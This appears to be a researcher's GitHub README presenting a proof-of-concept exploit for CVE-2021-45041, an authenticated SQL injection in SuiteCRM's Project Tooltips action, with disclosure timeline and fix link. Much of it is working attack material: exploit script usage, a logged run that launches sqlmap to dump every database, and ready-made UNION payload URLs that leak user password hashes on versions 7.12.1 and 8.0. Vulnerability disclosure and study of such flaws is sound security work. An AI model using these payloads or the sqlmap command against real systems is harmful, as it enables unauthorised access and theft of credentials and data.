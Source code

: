 # CVE-2021-45041

PoC for [CVE-2021-45041](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-45041) aka `SCRMBT-#177` - `Authenticated SQL-Injection in SuiteCRM <= 8.0`

## Usage

Options:

```
(.venv) ➜  CVE-2021-45041 git:(main) ./exploit.py --help
Usage: exploit.py [OPTIONS]

Options:
  -h, --host TEXT          Root of SuiteCRM installation. Defaults to
                           http://localhost
  -u, --username TEXT      Username
  -p, --password TEXT      password
  -c, --col_count INTEGER  Number of columns to use in union query. Defaults
                           to 44
  -d, --dbms TEXT          DBMs used by SuiteCRM. Defaults to mysql
  -d, --is_core BOOLEAN    SuiteCRM Core (>= 8.0.0). Defaults to False
  --help                   Show this message and exit.

  https://github.com/manuelz120/CVE-2021-45041
```

Example usage:

```
(.venv) ➜  CVE-2021-45041 git:(main) ✗ ./exploit.py --host http://localhost --username user --password ******
INFO:CVE-2021-45041:Login did work - Trying to leak user hash to check if SuiteCRM is vulnerable
INFO:CVE-2021-45041:Received the following hash: $2y$10$WTN2aqQOyHUWxBjubqvYrukTOOE.rrfmE4SoogFbv4kc9dXu7vZzq
INFO:CVE-2021-45041:If this doesn't look like a password hash, the exploit might not work correctly
INFO:CVE-2021-45041:Launching sqlmap against target to get full DB dump
INFO:CVE-2021-45041:sqlmap -u 'http://localhost/index.php?module=Project&action=Tooltips&resource_id=test%5C&start_date=%29+*' --headers 'Cookie: PHPSESSID=93b4g4bfd3ak199iiiands8cv8; sugar_user_theme=SuiteP' --technique U --dbms mysql --union-cols=44 --batch --dump-all
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.5.12#pip}
|_ -| . [)]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 21:42:51 /2021-12-27/

custom injection marker ('*') found in option '-u'. Do you want to process it? [Y/n/q] Y
[21:42:51] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* (URI)
    Type: UNION query
    Title: Generic UNION query (NULL) - 44 columns (custom)
    Payload: http://localhost:80/index.php?module=Project&action=Tooltips&resource_id=test\&start_date=-8702) UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x717a6a7a71,0x52736356547967794948526b714b71584c55516679466d45537956795a546d664d74516d54644f41,0x716b767171),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
---
[21:42:52] [INFO] testing MySQL
[21:42:52] [INFO] confirming MySQL
you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n] Y
[21:42:52] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.51
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[21:42:52] [INFO] sqlmap will dump entries of all tables from all databases now
[21:42:52] [INFO] fetching database names
...
```

## Explanation

I recently discovered an authenticated SQL-Injection in SuiteCRM. I was able to verify the vulnerability in version 8.0 and 7.12.1. The vulnerability is located in the `Tooltips`-Action of the `Project` Module. In a default installation, any user is able to call this action by accessing the following URL (for version 8 add the /legacy prefix):

[/index.php?module=Project&action=Tooltips&resource_id=test&start_date=test](http://localhost/index.php?module=Project&action=Tooltips&resource_id=test&start_date=test)

If we check the implementation of that action (see 
https://github.com/salesagility/SuiteCRM-Core/blob/v8.0.0/public/legacy/modules/Project/controller.php#L485-L513), we can see that the values are directly taken from `$_REQUEST` without any additional sanitization, and later on used in the `where`-clause of the query.

![vulnerable function](./vulnerable.png)

Although we cannot use single-quotes due to the HTML-Entity encoding, this is still exploitable since there are multiple injection points. If we specify a `resource_id` ending with a backslash (`\`) character, the following single quote will be escaped, and the string will only be terminated by the single quote, after the `BETWEEN` keyword. This means, whatever the client is sending as `start_date`, will be treated as plain SQL and can be used to carry out an SQL-Injection attack.

Here is a minimal PoC which leaks the password hash of a user:

**Version 7.12.1:**

[/index.php?module=Project&action=Tooltips&resource_id=test\&start_date=%29%20UNION%20SELECT%200%2C%201%2C%202%2C%203%2C%204%2C%20%28SELECT%20user_hash%20from%20users%20limit%201%29%2C%206%2C%207%2C%208%2C%209%2C%2010%2C%2011%2C%2012%2C%2013%2C%2014%2C%2015%2C%2016%2C%2017%2C%2018%2C%2019%2C%2020%2C%2021%2C%2022%2C%2023%2C%2024%2C%2025%2C%2026%2C%2027%2C%2028%2C%2029%2C%2030%2C%2031%2C%2032%2C%2033%2C%2034%2C%2035%2C%2036%2C%2037%2C%2038%2C%2039%2C%2040%2C%2041%2C%2042%2C%2043%20from%20dual%3B%20%23](http://localhost/index.php?module=Project&action=Tooltips&resource_id=test&start_date=%29%20UNION%20SELECT%200%2C%201%2C%202%2C%203%2C%204%2C%20%28SELECT%20user_hash%20from%20users%20limit%201%29%2C%206%2C%207%2C%208%2C%209%2C%2010%2C%2011%2C%2012%2C%2013%2C%2014%2C%2015%2C%2016%2C%2017%2C%2018%2C%2019%2C%2020%2C%2021%2C%2022%2C%2023%2C%2024%2C%2025%2C%2026%2C%2027%2C%2028%2C%2029%2C%2030%2C%2031%2C%2032%2C%2033%2C%2034%2C%2035%2C%2036%2C%2037%2C%2038%2C%2039%2C%2040%2C%2041%2C%2042%2C%2043%20from%20dual%3B%20%23)

**Version 8.0:**

[/legacy/index.php?module=Project&action=Tooltips&resource_id=test\&start_date=%29%20UNION%20SELECT%200%2C%201%2C%202%2C%203%2C%204%2C%20%28SELECT%20user_hash%20from%20users%20limit%201%29%2C%206%2C%207%2C%208%2C%209%2C%2010%2C%2011%2C%2012%2C%2013%2C%2014%2C%2015%2C%2016%2C%2017%2C%2018%2C%2019%2C%2020%2C%2021%2C%2022%2C%2023%2C%2024%2C%2025%2C%2026%2C%2027%2C%2028%2C%2029%2C%2030%2C%2031%2C%2032%2C%2033%2C%2034%2C%2035%2C%2036%2C%2037%2C%2038%2C%2039%2C%2040%2C%2041%2C%2042%2C%2043%20from%20dual%3B%20%23](http://localhost/legacy/index.php?module=Project&action=Tooltips&resource_id=test&start_date=%29%20UNION%20SELECT%200%2C%201%2C%202%2C%203%2C%204%2C%20%28SELECT%20user_hash%20from%20users%20limit%201%29%2C%206%2C%207%2C%208%2C%209%2C%2010%2C%2011%2C%2012%2C%2013%2C%2014%2C%2015%2C%2016%2C%2017%2C%2018%2C%2019%2C%2020%2C%2021%2C%2022%2C%2023%2C%2024%2C%2025%2C%2026%2C%2027%2C%2028%2C%2029%2C%2030%2C%2031%2C%2032%2C%2033%2C%2034%2C%2035%2C%2036%2C%2037%2C%2038%2C%2039%2C%2040%2C%2041%2C%2042%2C%2043%20from%20dual%3B%20%23)

**URL Decoded Version:**

```
module=Project&action=Tooltips&resource_id=test\&start_date=) UNION SELECT 0, 1, 2, 3, 4, (SELECT user_hash from users limit 1), 6, 7, 8, 9, 10, 11, 12, 13, 14, 15, 16, 17, 18, 19, 20, 21, 22, 23, 24, 25, 26, 27, 28, 29, 30, 31, 32, 33, 34, 35, 36, 37, 38, 39, 40, 41, 42, 43 from dual; #
```

![PoC](./poc.png)

## Implemented fix

Shortly after my report, new SuiteCRM versions (`7.12.2` and `8.0.1`) were released, containing the following fix:

https://github.com/salesagility/SuiteCRM/commit/0201c36b1468a16eb89218e7c798cf0ce2adac5c?diff=unified#diff-cb8e700b4303102f82ba718a035794422b23769c3140a46f77285a268f14232aL489-L496

## Timeline

- **13/12/2021**: Vulnerability discovered and reported to SuiteCRM
- **14/12/2021**: Vulnerability confirmed by vendor (SalesAgility)
- **17/12/2021**: Release of fixed versions ([SuiteCRM 7.12.2](https://docs.suitecrm.com/admin/releases/7.12.x/) and [SuiteCRM 8.0.1](https://docs.suitecrm.com/8.x/admin/releases/8.0/))

## Credits

- [SQLMap](https://github.com/sqlmapproject/sqlmap)
- [Click](https://github.com/pallets/click)
- [BeautifulSoup](https://pypi.org/project/beautifulsoup4/)
